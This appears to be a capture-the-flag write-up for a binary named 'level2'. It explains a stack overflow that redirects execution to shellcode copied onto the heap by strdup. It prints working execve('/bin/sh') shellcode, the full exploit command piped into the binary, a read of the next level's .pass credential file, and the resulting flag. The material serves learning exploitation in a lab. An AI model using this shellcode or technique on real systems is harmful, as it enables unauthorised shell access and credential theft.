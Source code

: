 # level2

We find an executable `level2`. We run `gdb level2` to examine it.

A `main` calls a `p` function, which seems to do a `gets`, compare an address, and run an `strdup` if the check fails.

This time, the executable doesn't call `system` ; we'll have to do it ourselves, with **shellcode**. Instead of filling our buffer with `A`, we're gonna fill it with executable code in hexadecimal.

There's a subtlety here : usually, we could run the code by directly pointing our return address to the buffer. But here, all stack addresses start with `0xb` - which is exactly what is checked by the `p` function. We'll have to use the heap by taking advantage of the `strdup` (which will duplicate our shellcode there) and setting our `eip` register to wherever `strdup` copies our buffer.

## **The exploit**

We need three things :

- The size of the buffer until `eip`
- A shellcode
- The address we're jumping to

We fill the beginning of the buffer with `NOP` instructions, which if read will simply direct to our shellcode.

We'll have something like this :

```
python -c 'print(NOP_INSTRUCTION * (BUFFER_SIZE - SHELLCODE_SIZE) + SHELLCODE + DESIRED_ADDRESS)'
```

## **Size of the buffer**

In GDB, we can run
```
i r $ebp
```
to get the ebp register's address. We get `0xbffff718`, which means `eip` is at `0xbffff71c` (4 bytes behind).

We adjust the `x/NUMBERxw $esp` command to show us the bytes from `esp` to `eip`.
```
x/28xw $esp
```
seems to do the trick.

We can tell the buffer starts at `0xbffff6cc` by inputting a bunch of `A`'s and checking where the `0x41414141` starts.

A quick `python2 -c "print(0xbffff71c - 0xbffff6cc)"` tells us the "buffer size" : `80`.

## **Shellcode**

For the shellcode, no need to reinvent the wheel. There are plenty of existing shellcodes on the internet.

On [this website](https://beta.hackndo.com/buffer-overflow/), we find the following shellcode, which is equivalent to `system("/bin/sh");` :

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

## **Address**

Finally, we need the target address. We want something on the heap, so the place where `strdup` copies the buffer would be good.

We set a breakpoint after `strdup` with `break *p+105` and check the value of `eax` with :

```
p/x $eax
```

We get `0x804a008`.

## **The command**

Now we can substitute :

```
python -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")'
```

Finally, we have to pipe it into the executable. Same as before, we run :

```
( python -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' ; cat ) | ./level2
```

## **The flag**

It works ! In our interactive shell, we run :

```
cat /home/user/level3/.pass
```

... and get the flag for `level2` :

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```